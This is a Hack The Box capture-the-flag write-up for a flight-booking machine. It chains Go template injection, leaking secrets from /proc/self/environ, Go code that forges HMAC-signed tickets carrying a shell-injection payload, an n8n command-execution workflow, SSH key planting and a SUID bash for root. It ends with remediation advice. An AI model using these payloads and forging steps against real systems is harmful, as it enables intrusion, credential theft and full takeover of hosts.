## User Flag
- Recon:
    - 

```bash
nmap -sC -sV -p- 10.129.56.205
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
80/tcp open  http    nginx
|_http-title: Book a Seat, See the World - HTB Airways Booking
```

- We are greeted with this webpage:
    - 
- Enumerating the directories to see if we find anything
- 
- We can sign up and see a dashboard:
    - 
- Using burp to intercept requests do not reveal any useful api paths, so let's just naively book a flight and see what happens
- After booking a ticket, i see a "notes" field that let's us enter stuff inside
    - 
- Let's try some common injections for SSTI:
    - 
- This doesnt work, what bout this:
    - 
- Also doesnt work, let's just use a polyglot payload and test:
    - ${{<%[%'"}}%\. ->
        - 
    - bingo, we got some dynamic changes -> SSTI confirmed!
- Let's head to https://github.com/Hackmanit/template-injection-table and see which framework is this based on
- its based on go, lets try simply {{.}} to verify
    - 
- Yeah we can definitely try to read some stuff on the server
- Lets inject `{{printf "%#v" .}}` for the field name and types
    - 
- User seems interesting, let's inject `{{printf "%+v" .User}}`
    - 
- Its just me, so .User is not the target? => we now have to try spraying methods cause we do not have the source code, `File`, `ServeFile`, `Render`, `Attachment`, `Download`
, let's try {{.File "...."}}
- All errors until we try "/proc/self/environ"
- 
- Bingo. We see `TICKET_VALIDATION_TOKEN` and `N8N_API_KEY`, these must be useful later on
- Let's now also check the qr code on the ticket, might seem useful:
    - 
- Have a feeling its base64 encoded cause it looks like it:
    - 
- the token is a MAC? pretty lost for now, don't quite know where to use these
- Lets go back to enumerating /api cause when i do /api it seems there is an api gateway
- I cant find anything, thus i still called for some help on discord
    - 
- Let's try this:
    - 
- An oracle AGAIN, guess we have to fill in what it wants then, im guessing its the info from the base64 decode? Cause "verifyTicketAuth" sounds like something you would do when checking-in
- Send to Burp repeater and try:
    - 
    - ok, we've improved from "invalid_payload" -> "invalid request"
    - Maybe the `TICKET_VALIDATION_TOKEN` is useful here?
>STOP GUESSING HERE! I NOTICED THAT WE SHOULD BOOK A FLIGHT LATER THAN TODAY S.T. THE FIELDS ARE FILLED IN ALREADY, AND WE CAN ACTUALLY CHECKIN
    - 

- Let's actually send this to the repeater and see the request and response:
    - 
- What im guessing is that we need to forge a malicious qr_data and sign it with the leaked token , maybe the malicious qr_data can achieve RCE?
- Let's write a Go verifier to see where we need to sign
```go
package main

import (
	"bytes"
	"crypto/hmac"
	"crypto/sha256"
	"encoding/base64"
	"fmt"
)

func main() {
	key := []byte("JvoSrD6DHjWwuwHMRPhElhOtCVH6h5sWuCjPh0WKmrAWAzYClpm2A1UikQQMfiAR")
	raw, _ := base64.StdEncoding.DecodeString("ThAAHSpnb2IuVmVyaWZ5VGlja2V0QXV0aGVudGljaXR5fwMBARhWZXJpZnlUaWNrZXRBdXRoZW50aWNpdHkB/4AAAQEBBERhdGEBCgAAAP+i/4D/ngH/mnsiUE5SIjoiN05QWlZaIiwiVG9rZW4iOiI5MWUxMGFhNzBkYWNkMWZhOTEzNTlmM2NhODA4NmNkZCIsIlNlYXQiOiI1QSIsIlBhc3NlbmdlciI6IjExMSIsIk5vdGlmeUNtZCI6ImNoZWNrLWluLW5vdGlmeSAtLXBuciA3TlBaVlogLS1lbWFpbCBhYWFAZ21haWwuY29tIn0AGObpNYw6pn3FPGYrTr6VvY1VpSLdc35eUuwDjUCzer0=") // full original
	sig := raw[len(raw)-32:]      // trailing HMAC-SHA256
	body := raw[:len(raw)-32]     // gob bytes

	try("whole-gob", key, body, sig)

	// just the inner JSON, in case it signs Data instead of the gob
	if a := bytes.IndexByte(body, '{'); a >= 0 {
		if b := bytes.LastIndexByte(body, '}'); b > a {
			try("inner-json", key, body[a:b+1], sig)
		}
	}
}

func try(name string, key, msg, want []byte) {
	m := hmac.New(sha256.New, key)
	m.Write(msg)
	fmt.Printf("%-10s match=%v\n", name, hmac.Equal(m.Sum(nil), want))
}
```
- We get whole-gob match=true, inner-json match=false => sign the whole-gob
- Let's use this script to sign it!
```go
package main

import (
	"bytes"
	"crypto/hmac"
	"crypto/sha256"
	"encoding/base64"
	"encoding/gob"
	"fmt"
)

type VerifyTicketAuthenticity struct {
	Data []byte
}

func init() {
	gob.RegisterName("*gob.VerifyTicketAuthenticity", &VerifyTicketAuthenticity{})
}

func encode(j string) []byte {
	var v interface{} = &VerifyTicketAuthenticity{Data: []byte(j)}
	var buf bytes.Buffer
	gob.NewEncoder(&buf).Encode(&v)
	return buf.Bytes()
}


func sign(key, body []byte) []byte {
	m := hmac.New(sha256.New, key); m.Write(body); return m.Sum(nil)
}

func main() {
	key := []byte("JvoSrD6DHjWwuwHMRPhElhOtCVH6h5sWuCjPh0WKmrAWAzYClpm2A1UikQQMfiAR")

	orig, _ := base64.StdEncoding.DecodeString("ThAAHSpnb2IuVmVyaWZ5VGlja2V0QXV0aGVudGljaXR5fwMBARhWZXJpZnlUaWNrZXRBdXRoZW50aWNpdHkB/4AAAQEBBERhdGEBCgAAAP+i/4D/ngH/mnsiUE5SIjoiN05QWlZaIiwiVG9rZW4iOiI5MWUxMGFhNzBkYWNkMWZhOTEzNTlmM2NhODA4NmNkZCIsIlNlYXQiOiI1QSIsIlBhc3NlbmdlciI6IjExMSIsIk5vdGlmeUNtZCI6ImNoZWNrLWluLW5vdGlmeSAtLXBuciA3TlBaVlogLS1lbWFpbCBhYWFAZ21haWwuY29tIn0AGObpNYw6pn3FPGYrTr6VvY1VpSLdc35eUuwDjUCzer0=")
	origBody := orig[:len(orig)-32]
	origJSON := `{"PNR":"7NPZVZ","Token":"91e10aa70dacd1fa91359f3ca8086cdd","Seat":"5A","Passenger":"111","NotifyCmd":"check-in-notify --pnr 7NPZVZ --email aaa@gmail.com"}`

	if bytes.Equal(encode(origJSON), origBody) {
		fmt.Println("[+] byte-faithful — server will decode + verify exactly")
	} else {
		fmt.Println("[!] still off — compare:")
		fmt.Printf("mine: %x\n", encode(origJSON))
		fmt.Printf("orig: %x\n", origBody)
	}

	evil := `{"PNR":"7NPZVZ","Token":"91e10aa70dacd1fa91359f3ca8086cdd","Seat":"5A","Passenger":"111","NotifyCmd":"check-in-notify --pnr 7NPZVZ --email 'x@x.com; sleep 5'"}`
	body := encode(evil)
	forged := append(body, sign(key, body)...)
	fmt.Println(base64.StdEncoding.EncodeToString(forged))
}
```
- The notifycmd part, we can first use sleep 5 to test if it works against this endpoint
- 
- And it seems it works! Let's drop our rev shell now
- 
- Now we have to find a way to lateral move to user... so far so hard!
- Running `ps aux` as `www-data` gives
    - 
- This part is interesting because it ties back to the n8n api key we have gotten before
- We see that n8n is running in docker as root on the port 5678 in localhost, so we might need to port forward, but if everything is driven by an API key then maybe UI is not needed...
- `curl -s http://127.0.0.1:5678/api/v1/workflows -H "X-N8N-API-KEY: <KEY>" | head`
- 
- This works, let's add an artificial workflow that let's us run any command in the container
```json
{
  "name": "metrics-exporter",
  "nodes": [
    {
      "parameters": { "httpMethod": "GET", "path": "x9k2", "responseMode": "lastNode" },
      "id": "b0000000-0001-4000-8000-000000000001",
      "name": "Webhook",
      "type": "n8n-nodes-base.webhook",
      "typeVersion": 1,
      "position": [250,300],
      "webhookId": "b0000000-0001-4000-8000-000000000001"
    },
    {
      "parameters": { "command": "={{ $json.query.cmd }}" },
      "id": "b0000000-0002-4000-8000-000000000002",
      "name": "Execute Command",
      "type": "n8n-nodes-base.executeCommand",
      "typeVersion": 1,
      "position": [500,300]
    }
  ],
  "connections": { "Webhook": { "main": [[{ "node": "Execute Command", "type": "main", "index": 0 }]] } },
  "settings": {}
}
```
- s.t. we are able to invoke this workflow via this: `curl -sG "http://127.0.0.1:5678/webhook/<path>" --data-urlencode 'cmd=<any command>; true'`
- `/proc/self/mountinfo` showed the container’s **`/root` is the host’s `/home/kpark`** (`/dev/sda4`). So container-root can read/write kpark’s home. => this is such a weird puzzle, wasted me a bunch of time
- So we can plant our ssh public key in the shared directory, thus the cmd looks like this with permissions dealt with: `curl -s -G "$B/webhook/x9k2" --data-urlencode 'cmd=chown 1001:1001 /root; chmod 700 /root; mkdir -p /root/.ssh; echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGdCF3+oj3Z/HibXU9b6R2GkKl4XhvOHp5vgjY3L8kcf kali@kali | base64 -d > /root/.ssh/authorized_keys; chown -R 1001:1001 /root/.ssh; chmod 700 /root/.ssh; chmod 600 /root/.ssh/authorized_keys; ls -la /root/.ssh 2>&1; true'`
- Then, login from local using `ssh -i takeoff kpark@<ip>`
- 
> what a nasty user flag

## Root Flag
- The root flag is more simple compared to the user flag, where we already know that the container, run by root, can arbitrary write in kpark, so we use this and try to write a rootbash to kpark and then invoke it.
- `cp /bin/bash /home/kpark/pwnbash` copy bash to here as pwnbash
    - Owner is kpark rn 
- And because we know /root = /home/kpark from user, at the www-data account we can `curl -s -G "$B/webhook/x9k2" --data-urlencode 'cmd=chown root:root /root/pwnbash; chmod 4755 /root/pwnbash; ls -la /root/pwnbash 2>&1; true'` -> just changing the permissions of the pwnbash (executable and with suid bit of course)
    - Owner is root rn 
- lastly just invoke it `./pwnbash -p`
- 

## Remediation

The chain is a classic "template injection → secret leak → forged signature → container escape".

- **Don't render user input as a template.** The booking note went through Go's `text/template` with user data as the template source, which is SSTI. Treat the note as *data* — pass it as a parameter to a fixed template, never concatenate it into the template string. See [OWASP — Server-Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Based_Vulnerabilities/18-Testing_for_Server-side_Template_Injection).
- **Keep secrets out of the process environment when the app can leak files.** `{{.File "/proc/self/environ"}}` is only devastating because the token and `N8N_API_KEY` were in env vars. Even so, a signing key being readable at all means it can be forged — a MAC only protects you if the key stays secret.
- **A valid HMAC on `NotifyCmd` doesn't make it safe to run.** The QR payload's `NotifyCmd` was passed to a shell, so even a legitimately-signed value achieved command injection. Don't build shell commands from signed fields — call the notifier with an argument vector (`execve`-style), not a shell string, and validate the email/PNR against a strict allowlist.
- **Don't bind-mount a user's home into a container as `/root`.** `/proc/self/mountinfo` showed the container's `/root` was the host's `/home/kpark`, so container-root could drop an SSH key and a SUID bash there. Mount only what the container needs, read-only where possible, and don't give the n8n container write access to host home directories. Lock down the n8n API key and disable `executeCommand` nodes if they aren't required.

### References

- [OWASP — Server-Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Based_Vulnerabilities/18-Testing_for_Server-side_Template_Injection)
- [OWASP — Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [Docker — volumes and bind mounts](https://docs.docker.com/storage/bind-mounts/)
